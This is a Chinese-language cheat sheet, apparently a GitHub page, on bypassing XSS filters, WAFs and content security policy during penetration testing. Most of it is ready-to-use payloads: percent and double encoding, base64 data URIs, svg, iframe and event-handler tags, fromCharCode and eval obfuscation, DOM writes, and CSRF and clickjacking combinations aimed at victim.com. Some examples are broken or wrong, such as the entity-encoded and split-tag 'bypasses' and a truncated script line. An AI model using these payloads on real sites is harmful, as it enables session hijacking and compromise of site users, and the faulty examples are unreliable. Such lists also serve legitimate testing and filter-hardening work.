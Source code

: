 
# **XSS 绕过过滤的思路**

在 **XSS（跨站脚本攻击）** 测试和绕过过滤时，通常会遇到各种安全机制，如 **WAF（Web应用防火墙）**、**输入验证**、**编码过滤**等。以下是一些常见的绕过思路，帮助你在渗透测试时提高 XSS 攻击成功率。

---

## **1. 编码绕过**

### **（1）URL 编码**

部分 WAF 可能不会解码 URL 编码的输入，可以尝试 **百分号编码**：

```html
<script>alert(1)</script>  →  %3Cscript%3Ealert(1)%3C%2Fscript%3E
```

有时也可以使用 **双重编码**：

```html
<script>alert(1)</script>  →  %253Cscript%253Ealert(1)%253C%252Fscript%253E
```

### **（2）HTML 实体编码**

使用 HTML 实体编码绕过过滤：

```html
<script>alert(1)</script>  →  &lt;script&gt;alert(1)&lt;/script&gt;
```

### **（3）Base64 编码**

如果目标应用允许 **JavaScript 的 atob() 解码**，可以绕过过滤：

```html
<img src="data:image/svg+xml;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" />
```

---

## **2. 标签变形**

部分 WAF 可能只拦截 `script` 标签，但可以利用其他支持 JavaScript 的标签，如：

```html
<svg onload=alert(1)>
<math><a xlink:href="javascript:alert(1)">Click</a></math>
<iframe src="javascript:alert(1)"></iframe>
<body onload=alert(1)>
```

---

## **3. 事件触发绕过**

如果 `script` 标签被拦截，可以尝试 **HTML 事件触发 XSS**：

```html
<input type="text" value="XSS" onfocus="alert(1)" autofocus>
<button onclick="alert(1)">Click me</button>
<div onmouseover="alert(1)">Hover me</div>
```

---

## **4. JavaScript 关键字混淆**

一些 WAF 可能会拦截 `alert()`，但可以使用 **JavaScript 关键字变形**：

```html
<script>window </script>
<script>setTimeout('alert(1)',100)</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>
```

---

## **5. 绕过内容安全策略（CSP）**

如果目标网站启用了 **CSP（Content Security Policy）**，尝试：

- **JSONP 绕过**：利用 `script` 标签加载外部 JSONP 资源
- **内联事件处理**：`onmouseover`, `onclick`
- **使用 `eval()`, `setTimeout()`, `setInterval()`**
- **利用 `data:` 或 `blob:` 协议**：
    
    ```html
    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
    ```
    

---

## **6. DOM-based XSS 绕过**

当 XSS 由 **DOM 解析**时，可以通过 `document.write()`、`innerHTML` 等方法：

```html
<script>document.write('<img src=x onerror=alert(1)>')</script>
<script>document.body.innerHTML += '<svg onload=alert(1)>'</script>
```

---

## **7. 逻辑绕过（BYPASS WAF）**

如果目标网站对 XSS 进行了 **严格的安全策略**，可以利用：

- **Unicode 绕过**（类似 `alert(1)` 转换为 `\u0061\u006c\u0065\u0072\u0074(1);`）
- **大小写绕过**（如 `ScRiPt`）
- **空白符绕过**（`<scr ipt>alert(1)</scr ipt>`）
- **注释绕过**（`<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>`）

---

## **8. 结合 CSRF 绕过**

如果目标网站允许跨站请求，可能可以借助 **CSRF（跨站请求伪造）** 来执行 XSS：

```html
<img src="http://victim.com/xss?payload=<script>alert(1)</script>">
```

---

## **9. 结合 Clickjacking 绕过**

可以尝试使用 **iframe + 透明层** 诱骗用户点击：

```html
<iframe src="http://victim.com" style="opacity:0; position:absolute; width:100%; height:100%"></iframe>
```

---

## **10. 结合 HTTP 参数污染绕过**

有些网站会解析多次参数：

```
http://victim.com/search?q=<script>alert(1)</script>&q=<svg onload=alert(1)>
```

可能会导致 XSS 触发。

---

## **总结**

XSS 绕过方法主要包括： ✅ **编码绕过**（URL 编码、HTML 实体编码）  
✅ **标签变形**（使用 `svg`, `math`, `iframe` 等）  
✅ **事件触发**（`onmouseover`, `onfocus` 等）  
✅ **关键字混淆**（`eval()`, `setTimeout()` 变形）  
✅ **DOM XSS 绕过**（`document.write()`）  
✅ **CSP 绕过**（JSONP, `data:` 协议）  
✅ **WAF 逻辑绕过**（大小写、空白符、Unicode 等）  
✅ **结合 CSRF、Clickjacking**

不同的网站会有不同的安全策略，针对性测试才能找到最好的绕过方式！